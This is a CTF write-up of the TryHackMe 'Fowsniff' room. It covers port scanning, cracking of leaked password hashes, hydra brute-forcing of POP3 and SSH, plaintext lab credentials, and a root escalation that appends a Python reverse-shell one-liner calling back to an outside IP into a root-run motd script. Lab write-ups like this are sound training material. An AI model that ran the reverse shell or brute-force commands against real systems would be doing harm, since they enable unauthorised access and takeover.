



# Fowsniff - THM Room

##### Gnome787 | 22 SEP 22

##### Creds

POP3 - seina:scoobydoo2
SSH - baksteen:S1ck3nBluff+secureshell

## Enum

**NMAP**
```bash
(root💀kali)-[~/THM/CTF/Fowsniff]
└─# nmap -sC -sV 10.10.126.157 -oN nmap/initial                           
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-21 23:36 EDT
```

Open Ports
* 22/tcp SSH
* 80/tcp HTTP
* 110/tcp POP3
* 143/tcp IMAP

**Gobuster**
```bash
┌──(root💀kali)-[~/THM/CTF/Fowsniff]
└─# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.126.157                    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
```

Scan uncovers a couple interesting directories:
* /robots.txt
* /security.txt



**143 IMAP**
I started off by trying to access the imap with netcat to no avail. 

```bash
netcat 10.10.126.157 143
```

**/security.txt**
This shows the company has recently been hacked. I decided to chuck that username into google and got some interesting results. I found a number of hashes that we can attempt to crack.

```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```

Cracked
```
mauer:mailcall
mustikka:bilbo101
tegel:apples01
baksteen:skyler22
seina:scoobydoo2
stone:
mursten:carp4ever
parede:orlando12
sciana:07011972
```

**110 POP3**
Given the usernames and passwords we have, I figured it was worth a bruteforce attempt against thr POP3 service with the credentials. Using hydra we can achieve this:
```bash
──(root💀kali)-[~/THM/CTF/Fowsniff]
└─# hydra -L usernames.txt -P passwords.txt -f 10.10.126.157 pop3 -v
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
```
From this we get a successful login with the following credentials:
```bash
[110][pop3] host: 10.10.126.157   login: seina   password: scoobydoo2
```
Using these credentials we can attempt to login to the POP3 server with **telnet**:
```bash
┌──(root💀kali)-[~/THM/CTF/Fowsniff]
└─# telnet 10.10.126.157 110                                                                                                                                                                                                             1 ⨯
Trying 10.10.126.157...
Connected to 10.10.126.157.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
```
We then run the **list** command to see whats on the server:
```bash
list
+OK 2 messages:
1 1622
2 1280
```
We can then look at these messages using the command **retr**: The first email contains a tempoary password that is being used for ssh **S1ck3nBluff+secureshell**.

**22 SSH**
Now that we know the company has used a tempoary password for all accounts. we can use that password along with our usernames list from before and try and bruteforce an ssh connection:
```bash
hydra -L usernames.txt -p S1ck3nBluff+secureshell -f 10.10.126.157 ssh -v 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-22 00:45:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:8/p:1), ~1 try per task
[DATA] attacking ssh://10.10.126.157:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://mauer@10.10.126.157:22
[INFO] Successful, password authentication is supported by ssh://10.10.126.157:22
[22][ssh] host: 10.10.126.157   login: baksteen   password: S1ck3nBluff+secureshell
```
And now we have ssh access with the account **baksteen**. 



**System Enumeration**
After gaining ssh access, I started having a look around, testing sudo, seeing what the user can access which turns out not to be very much. I then began to see what perms our account has. He is apart of the **users** group so we can see what they can do or what files/directories they own. I had a look at the home directory and got very little:
```bash
baksteen@fowsniff:/$ find /home -group users
find: ‘/home/seina’: Permission denied
find: ‘/home/stone’: Permission denied
find: ‘/home/mustikka’: Permission denied
find: ‘/home/parede’: Permission denied
find: ‘/home/tegel’: Permission denied
/home/baksteen/.cache
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir
/home/baksteen/Maildir/tmp
...........REDACTED...........
```
From there I had a look at the **/opt** directory as this is often a good place to find scripts/tools you can use:
```bash
baksteen@fowsniff:/$ find /opt -group users
/opt/cube/cube.sh
find: ‘/opt/chkrootkit’: Permission denied
find: ‘/opt/rkhunter’: Permission denied
find: ‘/opt/clamxav’: Permission denied
```
The **cube.sh** file looks interesting, and our users group seems to have **rwx** permissions on it. This means we can add a malicious payload to it and then execute that payload:
```bash
baksteen@fowsniff:/opt/cube$ ls -l
total 4
-rw-rwxr-- 1 parede users 851 Mar 11  2018 cube.sh
```
By adding the following shell to our **cube.sh** file we can gain a reverse shell using this script:
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.24.252",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Since we already have an ssh connection, our goal with this shell is to run it as root so that the shell we get is a root shell. Fortunately for us, our shell script will be run by root once we exit and rejoin the server as it is printed in the motd everytime someone joins. So all we need to do is exit, and then login using ssh, ensuring we have a netcat listener on our port.



### Things learned

* Telnet to exploit a POP3 server
* Enumerating a users privileges as well as the privileges of the groups they are a member of. The following commands were extremely useful in that regard:
```bash
# Find out the users groups with either
id
# or 
groups
# List the groups on the box
cat /etc/group
# Find which files/directories the user has access to
find / -group <GROUPNAME>
# Narrow it down to specific directories where is likely they will have something of use, examples include /opt and /home.
find /opt -group <GROUPNAME>
```
* Any files that can run code such as **.sh** are very good candidates for priv esc or further exploitation of the machine.
* Just because a script isn't executed as root, doesn't mean it can't be. Look for ways to have other scripts or programs run your payload as a root user.
